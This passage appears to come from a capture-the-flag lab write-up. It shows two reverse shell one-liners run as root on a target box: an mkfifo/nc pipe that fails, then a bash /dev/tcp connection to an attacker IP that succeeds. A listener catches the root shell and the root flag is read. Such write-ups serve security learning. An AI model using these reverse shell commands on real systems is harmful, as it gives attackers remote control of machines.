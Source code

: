 ```bash
root@ubuntu:/tmp# rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.53 4343 >/tmp/f
rm: cannot remove '/tmp/f': No such file or directory

Command 'nc' not found, but can be installed with:

apt install netcat-openbsd    
apt install netcat-traditional

root@ubuntu:/tmp# ls
root@ubuntu:/tmp# bash -i >& /dev/tcp/10.10.14.53/4343 0>&1
```

Reverse Shell as root received.
```bash
┌─[babayaga@babayaga-virtualbox]─[~]
└──╼ $nc -lvnp 4343
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4343
Ncat: Listening on 0.0.0.0:4343
Ncat: Connection from 10.129.94.197.
Ncat: Connection from 10.129.94.197:56288.
root@ubuntu:/tmp# ls
ls
f
free
linpeas.sh
root@ubuntu:/tmp# cd /root
cd /root
root@ubuntu:/root# ls
ls
info.c
root.txt
snap
root@ubuntu:/root# cat root.txt
cat root.txt
e5cb98f0673ee821bcc7dc982ac670a4
```
